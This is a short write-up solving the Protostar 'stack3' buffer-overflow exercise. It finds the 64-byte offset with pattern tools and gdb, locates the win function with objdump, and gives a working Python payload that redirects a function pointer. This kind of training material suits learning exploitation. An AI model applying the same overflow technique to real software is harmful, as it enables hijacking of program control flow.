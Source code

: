 ```yaml
---
title: Protostar - Stack3
description: My writeup on stack3 challenge.
categories:
 - binary exploitation
tags: binary exploitation, protostar
---
```


You can find the protostar there > [Protostar](https://exploit-exercises.lains.space/protostar/){:target="_blank"}

Let's solve this now without the source code.

Let's run the binary first & check what it does.

```bash
user@protostar:/opt/protostar/bin$ ./stack3
pwn
```

Takes a user input,  let's find out if the binary is vulnerable.

```bash
user@protostar:/opt/protostar/bin$ python -c 'print "A" * 100' | ./stack3
calling function pointer, jumping to 0x41414141
Segmentation fault
```

`segfault` confirms that binary is vulnerable to buffer overflow.

Let's find now the size of the buffer (exact number of characters that overwrite the EIP)

```bash
$ ./pattern_create.rb -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

$ gdb -q ./stack3
Reading symbols from /opt/protostar/bin/stack3...done.
(gdb) r
Starting program: /opt/protostar/bin/stack3 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
calling function pointer, jumping to 0x63413163

Program received signal SIGSEGV, Segmentation fault.
0x63413163 in ?? ()

$ ./pattern_offset.rb -q 0x63413163
[*] Exact match at offset 64
```

Perfect, if we run `objdump` we can see the `win` function :

```bash
user@protostar:/opt/protostar/bin$ objdump -d ./stack3 | grep win
08048424 <win>:
```

`objdump` -> disassembler

We can now build our exploit, we know the buffer `64bytes` & we have the address of the `win` function.

```bash
user@protostar:/opt/protostar/bin$ python -c 'print "A" * 64 + "$\x84\x04\x08"' | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

